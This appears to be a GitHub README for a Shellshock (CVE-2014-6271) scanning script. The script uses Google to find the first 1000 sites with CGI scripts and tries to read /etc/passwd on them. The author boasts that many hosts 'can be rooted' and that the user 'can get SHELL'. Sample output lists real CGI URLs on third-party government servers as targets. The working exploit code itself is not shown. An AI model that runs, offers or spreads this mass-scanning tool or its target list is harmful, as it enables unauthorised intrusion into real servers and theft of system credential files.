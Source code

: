 Prerequisite
============

1. `sudo pip install shell`
2. install google python search.  https://github.com/MarioVilas/google

Run
===
I use google to search first 1000 sites and try to get the `/etc/passwd`
After tesing, there are many many many host that can be rooted!!!!
By the way, this is only a proto, it has false positives.

Output like this:
if second field is `!!!`, then You Can Get SHELL!

```
$ python shellshock.py
0 --- http://nomad3.ncep.noaa.gov/cgi-bin/pdisp_sst.sh
1 --- http://nomad5.ncep.noaa.gov/cgi-bin/pdisp_gfs.sh?ctlfile=gfs_00z.ctl&povlp=noovlp&ptype=map&dir
```

References
===========
http://vonnyfly.github.io/

https://www.invisiblethreat.ca/2014/09/cve-2014-6271/
